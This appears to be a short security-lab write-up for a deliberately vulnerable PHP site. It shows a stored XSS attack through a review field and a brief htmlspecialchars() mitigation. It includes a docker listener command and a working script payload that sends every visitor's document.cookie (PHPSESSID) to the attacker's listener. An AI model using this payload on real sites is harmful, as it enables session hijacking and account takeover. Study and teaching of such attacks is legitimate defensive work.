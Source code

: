 # Get cookies of all users

This attack will exploit the reviews to grab the cookie of any user that visits the homepage.

## Steps

- Listen on your machine for connections

    `docker run -it --rm --name node-logger -p 8000:8000 -v ${PWD}:/usr/src/app -w /usr/src/app node:alpine node logger.js`

- Register an user on the website and login
- Create a review and inject malicious javascript code 

    ```javascript
    <script>
        fetch("http://127.0.0.1:8000", {
            method:'POST', 
            mode: 'no-cors', 
            body: document.cookie
        })
    </script>
    ```

- Every time a logged in user visits the homepage you receive their PHPSESSID cookie

## Mitigation

Wrap the search query text in [htmlspecialchars()](https://www.php.net/manual/en/function.htmlspecialchars.php) function
